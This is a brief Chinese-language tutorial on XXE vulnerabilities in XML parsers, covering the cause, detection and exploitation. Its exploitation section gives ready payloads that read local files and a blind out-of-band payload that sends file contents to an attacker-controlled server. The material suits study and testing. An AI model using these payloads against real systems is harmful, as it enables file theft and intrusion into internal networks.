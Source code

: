 ### 一、漏洞原理
XXE 漏洞发生在应用程序解析 XML 输入时，没有禁止对外部实体的加载，导致可加载 恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害
### 二、漏洞校验
```xml
<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE ROOT [
<!ENTITY playwin "success">
]>
<root>&playwin;</root>
```
> 判定是否可以加载实体，如果可以加载即说明存在XXE漏洞。同时，也可以通过抓包工具对数据包进行判定。通过判定数据包的Content-Type:text/xml或Content-Type:application/xml的类型进行判定。

### 三、漏洞利用

1. 有回显
```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///d://test//test.txt">
]>
<x>&xxe;</x>
```
```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://127.0.0.1:81/test.dtd">
]>
<x>&xxe;</x>
```
> 因为结果会展示到页面，所以直接读取


2. 无回显
```xml
<!ENTITY % payload
"<!ENTITY &#x25; send SYSTEM 'http://192.168.0.102:81/test/index.php?data=%file;'>"
>
%payload;
```
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/test3.txt">
<!ENTITY % dtd SYSTEM "http://192.168.0.102:81/test/test.dtd">
%dtd;
%send;
]>
```
> 因为结果不会展示到页面，所以以发送请求的方式把数据发送到自己的服务器，由自己服务器进行接收

